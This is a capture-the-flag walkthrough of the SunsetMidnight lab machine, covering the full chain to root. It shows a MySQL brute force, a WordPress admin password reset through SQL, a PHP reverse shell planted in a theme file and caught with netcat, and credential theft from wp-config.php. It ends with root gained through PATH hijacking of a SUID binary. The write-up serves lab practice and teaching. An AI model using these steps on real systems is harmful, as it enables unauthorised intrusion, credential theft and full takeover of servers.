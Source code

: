 # PG Play - SunsetMidnight

#### Ip: 192.168.180.88
#### Name: SunsetMidnight
#### Difficulty: Intermediate
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ sudo nmap -p-  --min-rate 10000 192.168.180.88 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-13 11:03 CDT
Nmap scan report for 192.168.180.88
Host is up (0.068s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
|   Thread ID: 14
|   Capabilities flags: 63486
|   Some Capabilities: Speaks41ProtocolNew, FoundRows, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SupportsCompression, ConnectWithDatabase, SupportsTransactions, DontAllowDatabaseTableColumn, ODBCClient, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, IgnoreSigpipes, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: RNm[`PQ&dJ$q1=|}~$4t
|_  Auth Plugin Name: mysql_native_password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.91 seconds
```

We can see from the Nmap results the site on port 80 is redirecting to http://sunset-midnight/, so lets go ahead and add that to our `/etc/hosts` file.

Now heading to the website we see it is running WordPress.

![site.png](../assets/sunsetmidnight_assets/site.png)

After enumerating HTTP for a bit and not finding much, I decided to kick off password bruteforcing against Mysql on port 3306 using Hydra:

![brute.png](../assets/sunsetmidnight_assets/brute.png)

Cool, Hydra found a working password. Lets login to the database with this:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ mysql -h 192.168.180.88 -u root -probert
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 214
Server version: 10.3.22-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress_db       |
+--------------------+
4 rows in set (0.082 sec)
```

After looking through the DB and not finding much of interest (I was unable to crack the Admin password) I decided to change the Admin password:

```text
MariaDB [wordpress_db]> UPDATE wp_users SET user_pass = MD5('password') WHERE wp_users.user_login = "admin";;
Query OK, 1 row affected (0.069 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

We can now head to http://sunset-midnight/wp-admin/ and login to the WordPress site with admin:password.

![login.png](../assets/sunsetmidnight_assets/login.png)

### Exploitation

From here lets grab a copy of PentestMonkey's php-reverse-shell.php and overwrite a theme on the WP site.

First we'll need to update the IP and port fields with our correct information:

![php.png](../assets/sunsetmidnight_assets/php.png)

Then changing the theme to twentynineteen, I copied the malicious PHP code into the header.php file, and with a NetCat listener going navigating back to http://sunset-midnight to trigger the shell:

```text
┌──(ryan㉿kali)-[~/PG/SunsetMidnight]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.180.88] 35938
Linux midnight 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64 GNU/Linux
 13:12:09 up  2:19,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
midnight
```

From here I can grab the local.txt flag:

![user_flag.png](../assets/sunsetmidnight_assets/user_flag.png)

### Privilege Escalation

Taking a look in `/var/www/html/wordpress` we can access the wp-config.php file, which has Jose's password:

![cred.png](../assets/sunsetmidnight_assets/cred.png)

We can use this to `su jose` on the target:

```text
www-data@midnight:/var/www/html/wordpress$ su jose
Password: 
jose@midnight:/var/www/html/wordpress$ whoami
jose
```

From here I'll transfer over LinPEAS to help with enumerating a privilege escalation vector:

![transfer.png](../assets/sunsetmidnight_assets/transfer.png)

LinPEAS finds an interesting file with the SUID bit enabled:

![lp.png](../assets/sunsetmidnight_assets/lp.png)

Looks like the file is an executable:

```text
jose@midnight:/tmp$ file /usr/bin/status
/usr/bin/status: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0b60ab071f1d8a6295eedb7f6815e957f2936171, not stripped
```

Using strings we find that the executable is calling service but not using the absolute path. If we create our own service file and update the PATH, we may be able to exploit this:

```text
jose@midnight:/tmp$ touch service
jose@midnight:/tmp$ echo "/bin/sh" > service
jose@midnight:/tmp$ chmod +x ./service
jose@midnight:/tmp$ PATH=/tmp:$PATH
jose@midnight:/tmp$ /usr/bin/status
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(jose)
```

Nice, that worked!

Now lets grab the final flag:

![root_flag.png](../assets/sunsetmidnight_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------
